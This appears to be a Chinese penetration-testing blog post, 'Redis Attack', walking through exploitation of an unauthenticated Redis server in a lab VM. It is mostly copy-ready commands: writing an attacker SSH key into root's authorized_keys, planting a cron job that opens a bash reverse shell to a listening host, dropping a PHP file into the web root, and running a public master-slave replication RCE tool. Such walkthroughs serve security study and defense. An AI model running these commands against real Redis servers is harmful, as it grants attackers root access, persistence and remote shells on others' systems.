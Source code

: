 ```yaml
---
title: "Redis Attack"
date: 2020-05-24T20:52:03+08:00
draft: flase
tags: [渗透测试]
categories: []
comment: true
---
```

Redis攻击
<!--more-->

# Redis攻击

- 环境搭建

*在虚拟机中搭建redis服务*
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524175624.png)

- 测试连接 

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524180324.png)

## 写ssh-keygen公钥登陆

- 首先在本地生产公私钥文件

```
ssh-keygen –t rsa
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524194700.png)

- 公钥写入 key.txt 文件

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524195047.png)

- 连接 Redis 写入文件

```
cat test.txt | redis-cli -h 192.168.1.103 -x set crackit
redis-cli -h 192.168.1.103
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
save
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524200329.png)

- 私钥登陆

```
ssh -i id_rsa root@192.168.1.103
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524200456.png)

## 利用计划任务执行命令反弹shell

- 监听一个端口

```
nc -lvvp 6666
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524200813.png)

- 写入反弹shell

```
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.1.101/6666 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524201145.png)

- 反弹shell

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524201238.png)

## WEB目录写webshell

- 写shell

```
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php phpinfo();?>"
save
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524201441.png)

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524201742.png)

## 基于主从复制的RCE

- 影响范围

```
Redis 4.x/5.x
```

- 工具下载地址
 
```
https://github.com/jas502n/Redis-RCE.git
```

- 主从利用

```
python redis-rce.py -r 192.168.1.103 -p 6379 -L 192.168.1.101 -f exp_lin.so
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524204257.png)
